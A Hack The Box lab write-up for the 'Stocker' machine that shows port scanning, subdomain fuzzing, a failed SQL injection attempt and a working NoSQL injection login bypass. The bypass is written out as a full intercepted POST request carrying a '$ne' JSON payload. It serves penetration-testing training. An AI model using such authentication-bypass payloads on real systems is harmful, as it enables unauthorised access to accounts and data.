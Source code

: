 # HTB Stocker

### Machine IP

```
10.10.11.196
```

### Scanning

```
nmap -sC -sV -Pn -T5 10.10.11.196
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-23 01:59 EST
Warning: 10.10.11.196 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.11.196
Host is up (0.26s latency).
Not shown: 700 closed tcp ports (conn-refused), 298 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So it appears that ports 22 and 80 are open.


### Adding to hosts

Adding `stocker.htb` to the hosts file...

```
$ vim /etc/hosts
```

```
...
10.10.11.196    stocker.htb
...
```

### Exploring stocker.htb

Seems like an "in-development" website that stocks goods to customers. Seems to be only one page with 'in-page' links included.

Page source doesn't seem to include anything interesting. The console seemingly outputs page position for some reason...

Let's run wfuzz to find some subdirectories...

```
$ wfuzz -c --hc 404 -w wordlists/dirbuster/directory-list-2.3-medium.txt http://stocker.htb/FUZZ
```

Nothing interesting came back.

And let's fun wfuzz to find subdomains...

```
$ wfuzz -c -f sub-fighter -w /usr/share/wordlists/amass/subdomains-top1mil-20000.txt -u 'http://stocker.htb' -H "Host: FUZZ.stocker.htb" --hc 301
```

We found something!

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload      
=====================================================================

000000019:   302        0 L      4 W        28 Ch       "dev"   
```

Let's quickly pop it in the hosts file and check it out!

```
$ vim /etc/hosts
```

```
...
10.10.11.196    stocker.htb dev.stocker.htb
...
```


### dev.stocker.htb

This page appears to feature a login panel for developers. Trying username and password as `admin` gives us nothing.

Let's try some SQL Injection.

Runing sqlmap as follows...

```
sqlmap -u http://dev.stocker.htb/login -p "username"
```

Presents us with...nothing useful. Thats SQLi down the drain. I previously learnt about NoSQLi. Might aswell give that a go!

Attempting a login with:
```
Username: admin'||'1==1
Password: cheese
```

No luck.

Let's delve further into NoSQL


### NoSQLi

Running [this tool](https://github.com/C4l1b4n/NoSQL-Attack-Suite) as follows...

```
$ python3 nosql-login-bypass.py -t http://dev.stocker.htb/login -u username -p password
```

Gives us the following output...

```
[*] Checking for auth bypass GET request...
[-] Login is probably NOT vulnerable to GET request auth bypass...

[*] Checking for auth bypass POST request...
[-] Login is probably NOT vulnerable to POST request auth bypass...

[*] Checking for auth bypass POST JSON request...
[+] Login is probably VULNERABLE to POST JSON request auth bypass!
[!] PAYLOAD: {"username": {"$ne": "dummyusername123"}, "password": {"$ne": "dummypassword123"}}
```

SO it appears that NoSQLi is possible via a POST JSON request!


### Burpsuite

Using the information from above, we can use Burpsuite to intercept a POST request and insert JSON (from the NoSQLi attck tool).

```
POST /login HTTP/1.1
Host: dev.stocker.htb
Content-Length: 82
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dev.stocker.htb
Content-Type: ***application/json***
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://dev.stocker.htb/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3ANVkdtXaLYGvF7_wKsoUmSRrjVrquY5a6.hBph5bZ%2BHKiIW25THWmp4z%2FNJgr2OQ%2BuLG0q55VgNO8
Connection: close

***{"username": {"$ne": "dummyusername123"}, "password": {"$ne": "dummypassword123"}}***
```

*** marks the two places where I have changed the data in the request.

THe response (in the Repeater tab) is...

```
HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 24 Feb 2023 14:25:44 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: close
X-Powered-By: Express
Location: /stock
Vary: Accept

<p>Found. Redirecting to <a href="/stock">/stock</a></p>
```

Where previously it was...

```
HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 24 Feb 2023 14:29:20 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 92
Connection: close
X-Powered-By: Express
Location: /login?error=login-error
Vary: Accept

<p>Found. Redirecting to <a href="/login?error=login-error">/login?error=login-error</a></p>
```

This indicates the existence of a `/stock` page.



